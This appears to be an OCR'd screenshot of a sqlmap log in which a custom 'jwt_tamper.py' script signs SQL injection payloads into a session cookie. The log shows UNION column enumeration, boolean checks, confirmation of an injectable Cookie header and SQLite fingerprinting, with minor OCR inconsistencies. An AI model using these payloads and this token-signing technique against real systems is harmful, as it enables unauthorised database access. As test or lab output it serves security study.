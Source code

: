 ```bash
[14:28:45] [INFO] [jwt_tamper.py] Sign payload: ') UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- eomS
[14:28:45] [INFO] [jwt_tamper.py] Sign payload: ') UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- JFMa
[14:28:45] [INFO] [jwt_tamper.py] Sign payload: ' ORDER BY 1-- qGmN
[14:28:45] [INFO] [jwt_tamper.py] Sign payload: ' UNION ALL SELECT NULL-- juyZ
[14:28:45] [INFO] [jwt_tamper.py] Sign payload: ' UNION ALL SELECT NULL,NULL-- ZPXO
[14:28:46] [INFO] [jwt_tamper.py] Sign payload: ' UNION ALL SELECT NULL,NULL,NULL-- gGLU
[14:28:46] [INFO] [jwt_tamper.py] Sign payload: ' UNION ALL SELECT NULL,NULL,NULL,NULL-- WPVI
[14:28:46] [INFO] [jwt_tamper.py] Sign payload: ' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL-- nGgl
[14:28:46] [INFO] [jwt_tamper.py] Sign payload: ' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL-- gFEV
[14:28:46] [INFO] [jwt_tamper.py] Sign payload: ' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL-- nxMB
[14:28:46] [INFO] [jwt_tamper.py] Sign payload: ' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- gRDT
[14:28:46] [INFO] [jwt_tamper.py] Sign payload: ' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- rCUa
[14:28:46] [INFO] [jwt_tamper.py] Sign payload: ' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- uBIg
[14:28:46] [INFO] target URL appears to be UNION injectable with 3 columns
[14:28:46] [INFO] [jwt_tamper.py] Sign payload: ' UNION ALL SELECT 'qbzvq'||'krsFFNKAMzHRqUkiTCPcnMkblcmYnfArqOjoqASU'||'qqzpq',NULL,NULL-- qbyI
[14:28:46] [INFO] [jwt_tamper.py] Sign payload: ' UNION ALL SELECT NULL,'qbzvq'||'FKKbYYsjqJCVnRcqlOluUCuTOkJLlOVredGcaaMy'||'qqzpq',NULL-- HQFt
[14:28:46] [INFO] [jwt_tamper.py] Sign payload: ' UNION ALL SELECT NULL,'qbzvq'||'FKKbYYsjqJCVnRcqlOluUCuTOkJLlOVredGcaaMy'||'qqzpq',NULL UNION ALL SELECT NULL,'qbzvq'||'pPMOnTOXRBdVUKLnnuLDAmFjOhWHVMrOqdXpsPWo'||'qqzpq',NULL-- RxKQ
[14:28:46] [INFO] (custom) HEADER parameter 'Cookie #1*' is 'Generic UNION query (NULL) - 1 to 10 columns' injectable
[14:28:46] [INFO] checking if the injection point on (custom) HEADER parameter 'Cookie #1*' is a false positive
[14:28:46] [INFO] [jwt_tamper.py] Sign payload: ' UNION ALL SELECT NULL,'qbzvq'||(SELECT (CASE WHEN (16=16) THEN 1 ELSE 0 END))||'qqzpq',NULL-- yTEq
[14:28:46] [INFO] [jwt_tamper.py] Sign payload: ' UNION ALL SELECT NULL,'qbzvq'||(SELECT (CASE WHEN (16=34) THEN 1 ELSE 0 END))||'qqzpq',NULL-- OtcS
[14:28:46] [INFO] [jwt_tamper.py] Sign payload: ' UNION ALL SELECT NULL,'qbzvq'||(SELECT (CASE WHEN (16=42) THEN 1 ELSE 0 END))||'qqzpq',NULL-- IBbP
[14:28:46] [INFO] [jwt_tamper.py] Sign payload: ' UNION ALL SELECT NULL,'qbzvq'||(SELECT (CASE WHEN (42=34) THEN 1 ELSE 0 END))||'qqzpq',NULL-- vMyu
[14:28:47] [INFO] [jwt_tamper.py] Sign payload: ' UNION ALL SELECT NULL,'qbzvq'||(SELECT (CASE WHEN (34=34) THEN 1 ELSE 0 END))||'qqzpq',NULL-- TBqB
[14:28:47] [INFO] [jwt_tamper.py] Sign payload: ' UNION ALL SELECT NULL,'qbzvq'||(SELECT (CASE WHEN (42 34) THEN 1 ELSE 0 END))||'qqzpq',NULL-- DQva
(custom) HEADER parameter 'Cookie #1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
sqlmap identified the following injection point(s) with a total of 66 HTTP(s) requests:
---
Parameter: Cookie #1* ((custom) HEADER)
    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: session=' UNION ALL SELECT NULL,'qbzvq'||'FKKbYYsjqJCVnRcqlOluUCuTOkJLlOVredGcaaMy'||'qqzpq',NULL-- HQFt
---
[14:28:52] [WARNING] changes made by tampering scripts are not included in shown payload content(s)
[14:28:52] [INFO] testing SQLite
[14:28:52] [INFO] [jwt_tamper.py] Sign payload: ' UNION ALL SELECT NULL,'qbzvq'||(SELECT (CASE WHEN (LAST_INSERT_ROWID()=LAST_INSERT_ROWID()) THEN 1 ELSE 0 END))||'qqzpq',NULL-- NVaR
[14:28:53] [INFO] confirming SQLite
[14:28:53] [INFO] [jwt_tamper.py] Sign payload: ' UNION ALL SELECT NULL,'qbzvq'||(SELECT (CASE WHEN (SQLITE_VERSION()=SQLITE_VERSION()) THEN 1 ELSE 0 END))||'qqzpq',NULL-- qcvb
[14:28:53] [INFO] actively fingerprinting SQLite
```